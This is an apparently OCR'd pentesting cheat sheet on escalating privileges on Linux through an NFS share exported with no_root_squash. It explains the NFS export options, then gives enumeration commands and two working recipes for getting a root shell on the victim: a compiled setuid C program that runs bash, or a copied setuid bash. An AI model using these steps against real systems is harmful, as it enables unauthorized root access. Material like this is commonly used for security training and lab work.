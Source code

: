- rw: Permit clients to read as well as write access to the shared directory.

- ro: Permit clients to Read-only access to shared directory.

- root_squash: This option Prevents file request made by user root on the client machine because NFS shares change the root user to the nfsnobody user, which is an unprivileged user account.

- no_root_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implication.

- async: It will speed up transfers but can cause data corruption as NFS server doesn’t wait for the complete write operation to be finished on the stable storage, before replying to the client.

- sync:   The sync option does the inverse of async option where the NFS server will reply to the client only after the data is finally written to the stable storage.

Enumeration

```
Victim


cat /etc/exports             // Do we see any no_root_squash enabled on a mounted share?

/tmp *(rw,sync,insecure,no_root_squash,no,subtree,check) 

Attacker

nmap -sV --script=nfs-showmount <victim_ip> 

```
Privilege Escalation

Attacker

```

showmount -e <victim_ip>                      
mkdir /tmp/mount                                
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mount/priv.c  
gcc /tmp/mount/priv.c -o /tmp/mount/priv
chmod +s /tmp/mount/priv

OR

showmount -e <victim_ip>   
mkdir /tmp/mount 
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
cd /tmp/mount
cp /bin/bash .
chmod +s bash
```
```
Victim

cd /tmp
./priv
id && whoami

OR

cd /tmp
./bash -p
id && whoami
```
